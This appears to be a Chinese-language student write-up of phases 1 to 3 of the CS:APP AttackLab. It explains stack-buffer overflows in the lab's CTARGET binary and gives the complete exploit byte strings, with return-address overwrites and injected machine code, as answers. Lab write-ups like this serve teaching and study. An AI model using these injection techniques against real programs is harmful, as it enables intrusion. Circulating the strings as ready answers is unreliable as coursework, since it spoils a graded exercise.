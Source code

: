 # AttackLab
## phase_1 touch1
> 题目：Your task is to get CTARGET to execute the code for touch1 when getbuf executes its return statement, rather than returning to test.
```assembly
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop
```
- 通过查看getbuf代码得到，分配到的栈帧为40字节，因此输入的字符长度超过40字节后，产生栈溢出攻击，函数返回后的跳转地址在该栈帧起始位置的高40位中
- 因此，我们需要产生一个40字节无效字符串+**4字节目标跳转地址**，来将原来的函数返回地址**覆盖**
	- 查看`touch1`：![](https://jiunian-pic-1310185536.cos.ap-nanjing.myqcloud.com/picgo%2F20230107210652.png)
	```assembly
	00000000004017c0 <touch1>:
	  4017c0:	48 83 ec 08          	sub    $0x8,%rsp
	  4017c4:	c7 05 0e 2d 20 00 01 	movl   $0x1,0x202d0e(%rip)        # 6044dc <vlevel>
	  4017cb:	00 00 00 
	  4017ce:	bf c5 30 40 00       	mov    $0x4030c5,%edi
	  4017d3:	e8 e8 f4 ff ff       	callq  400cc0 <puts@plt>
	  4017d8:	bf 01 00 00 00       	mov    $0x1,%edi
	  4017dd:	e8 ab 04 00 00       	callq  401c8d <validate>
	  4017e2:	bf 00 00 00 00       	mov    $0x0,%edi
	  4017e7:	e8 54 f6 ff ff       	callq  400e40 <exit@plt>
	```
	- 函数`touch1`的起始位置位于内存`0x4017c0`，因此使用该地址将原函数返回地址覆盖，使`getbuf`函数返回时跳转至函数`touch1`执行
- 答案：
```
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
c0 17 40 00 00 00 00 00
```
> 由于机器使用**小端法**，在输入返回地址时，需要在输入每一个字节时，反过来输入

## phase_2 touch2
> 题目：our task is to get CTARGET to execute the code for touch2 rather than returning to test. In this case, however, you must make it appear to touch2 as if you have passed your cookie as its argument.

- `touch2`：![](https://jiunian-pic-1310185536.cos.ap-nanjing.myqcloud.com/picgo%2F20230107210804.png)
	- 可以看到，我们需要将cookie作为参数传入到touch2中，才可以实现攻击
	- 同上一题，先查看`touch2`函数在内存中的位置：`00000000004017ec `
- 如何传入参数？
	- 默认情况下，函数的参数依次放在寄存器`%rdi,%rsi,%rdx...`中，那么接下来思考的问题是：如何通过传入一个字符串来将参数放置在`%rdi`上，并且下一步执行`touch2`。
	- 通过输入字符串，我们可以在原来的栈帧上插入一段代码（使用机器码表示的代码），这个代码执行的功能是：
		 - 将目标参数(`cookie`)放置在寄存器`%rdi`上(`movq <cookie>, %rdi`)
		 - 跳转至`touch2`(`pushq <target_address>, retq`)
	- 如何跳转至植入的代码？
		- 获得我们输入字符串（植入代码）的栈帧的地址（即`getbuf`函数栈帧的首地址）
	- 然后就可以通过植入代码中的`retq`来跳转到刚刚入栈的地址(`touch2`)
> `getbuf`的栈帧首地址需要通过gdb调试获得
> 在`getbuf`函数处打一个断点，`run -q`，`info registers`来查找寄存器`%rsp`上的值（即当前栈帧的首地址，为`0x5561dc78`）

- 答案：
```
48 c7 c7 fa 97 b9 59      //movq
68 ec 17 40 00            //pushq
c3                        //retq
11                        //补齐40字节无效字符
11 11 11
11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
78 dc 61 55 00 00 00 00   //植入代码的地址
```

## phase_3 touch3
> 题目：Your task is to get CTARGET to execute the code for touch3 rather than returning to test. You must make it appear to touch3 as if you have passed a string representation of your cookie as its argument.

- 思路与上一题相似，但是要注意的是，我们这次传入的参数为一个**字符串**，因此我们需要将目标字符串的首地址放在第一个参数`%rdi`上，以此达到传入一个字符串参数的目的（字符串的本质是字符数组）
- 问题在于，我们需要将字符串放在那个位置
	- 由本题的建议：When functions hexmatch and strncmp are called, they push data onto the stack, overwriting portions of memory that held the buffer used by getbuf. As a result, you will need to be careful where you place the string representation of your cookie
	- 可以知道，当调用函数`hexmatch`和`strncmp`时，原函数`getbuf`的栈帧会被覆盖，所以当我们成功跳转至`touch3`并调用`hexmatch`进行比较时，如果我们将cookie字符串放在`getbuf`栈帧上，该字符串将会被覆盖，导致无法获得该字符串，导致失败
	- 那么问题变为，找到一个不会被覆盖的位置（在进入getbuf函数前的栈顶，也即返回地址的前一个8字节，即`0x5561dca8`，并且这个地址可以方便的进行覆盖），并将字符串放在该地址上。
- 答案：
```
48 c7 c7 a8 dc 61 55
68 fa 18 40 00
c3
11
11 11 11
11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
```

